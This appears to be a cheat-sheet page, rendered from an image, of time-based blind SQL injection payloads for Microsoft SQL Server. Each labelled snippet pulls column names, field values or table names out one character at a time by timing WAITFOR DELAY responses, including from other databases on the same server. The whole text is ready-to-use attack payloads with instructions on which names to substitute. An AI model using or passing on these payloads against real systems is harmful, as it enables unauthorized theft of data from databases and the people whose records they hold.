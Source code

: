 To extract 1st column (replace table1):

```sql
1; IF LEN((SELECT TOP 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'))&gt;5 WAITFOR DELAY '00:00:15'--

1; IF ASCII(LOWER(SUBSTRING((SELECT TOP 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'),1,1)))&gt;97 WAITFOR DELAY '00:00:15'--
```

To extract 2nd column (replace table1 and column1):

```sql
1; IF ASCII(LOWER(SUBSTRING((SELECT TOP 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'  AND column_name &gt;'column1' ),1,1)))&gt;97 WAITFOR DELAY '00:00:15'--
```

Extract 1st field of column 1 (replace table1 and column1):

```sql
1; IF LEN((SELECT TOP 1 column1 FROM table1))&gt;5 WAITFOR DELAY '00:00:15'--

1; IF ASCII(SUBSTRING((SELECT TOP 1 column1 FROM table1),1,1))&gt;65 WAITFOR DELAY '00:00:15'--
```

Extract 1st field of column 2 (replace table1 and column1):

```sql
1; IF LEN((SELECT TOP 1 column2 FROM table1))=3 WAITFOR DELAY '00:00:15'--

1; IF ASCII(SUBSTRING((SELECT TOP 1 column2 FROM table1),1,1))&gt;65 WAITFOR DELAY '00:00:15'--
```

Extract 2nd field of column 1 (replace column1,table1 and field1):

```sql
1; IF ASCII(SUBSTRING((SELECT TOP 1 column1 FROM table1 WHERE column1 &gt;'field1'),1,1))&gt;65 WAITFOR DELAY '00:00:15'--
```

Extract 1st table from another database (replace other_database):

```sql
1; IF ASCII(LOWER(SUBSTRING((SELECT TOP 1 NAME FROM other_database..sysobjects WHERE xtype='U'),1,1)))=117 WAITFOR DELAY '00:00:15'--
```

Extract 1st column from another database (replace other_database and other_table):

```sql
1; IF ASCII(LOWER(SUBSTRING((SELECT TOP 1 column_name FROM other_database.information_schema.COLUMNS WHERE TABLE_NAME='table1'),1,1)))&gt;97 WAITFOR DELAY '00:00:15'--
```

Extract 1st field of column 1 from another database (replace other_database, other_table and other_column):

```sql
1; IF (ASCII(SUBSTRING((SELECT TOP 1 other_column FROM other_database..other_table),1,1))&gt;65) WAITFOR DELAY '00:00:15'--
```
